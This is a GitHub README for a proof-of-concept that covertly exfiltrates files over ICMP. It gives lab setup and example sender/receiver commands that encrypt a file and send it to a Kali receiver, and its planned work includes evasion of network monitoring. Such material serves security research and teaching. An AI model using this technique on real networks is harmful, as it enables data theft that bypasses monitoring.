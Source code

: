 # ICMP-Exfiltration-PoC
Proof-of-concept scripts to demonstrate file exfiltration using ICMP protocol.

---

## 📌 Overview

This repository contains two Python scripts (`sender.py` and `receiver.py`) demonstrating how files can be covertly transmitted using the ICMP protocol, commonly employed for network diagnostics (ping). This PoC is intended solely for educational and research purposes.

---

## 📦 Requirements

Make sure Python 3 is installed along with these dependencies:

```bash
pip install scapy pycryptodome requests
```

Or use the provided `requirements.txt` file:

```bash
pip install -r requirements.txt
```

---

## 🖥 Setup

Use two virtual machines connected via an internal network:

- **Sender VM:** Linux Mint (or similar)
- **Receiver VM:** Kali Linux (or similar)

Configure static IPs (example setup):

- Sender: `192.168.100.10`
- Receiver: `192.168.100.20`

---

## 🚀 Usage

### Receiver

On Kali Linux:

```bash
sudo python3 receiver.py -P <PortTag> -R <Password> -o <OutputFileName> -v
```

Example:

```bash
sudo python3 receiver.py -P 6666 -R "MySecurePass" -o output.txt -v
```

### Sender

On Linux Mint:

```bash
sudo python3 sender.py -L <FileToSend> -P <Password> -D <ReceiverIP> -R <PortTag> -v
```

Example:

```bash
sudo python3 sender.py -L secret.txt -P "MySecurePass" -D 192.168.100.20 -R 6666 -v
```

---

## ⚠️ Ethical Considerations

This PoC is strictly for educational purposes. Unauthorized use on any network or system without explicit permission is illegal and unethical. Always perform these tests within controlled environments.

---

## 📌 Future Improvements

- Payload obfuscation and encoding
- Packet compression
- Integrity checks (checksums, HMAC)
- Multi-file support
- Evasion techniques against network monitoring

Feel free to contribute and suggest improvements!

---

## 🔖 License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
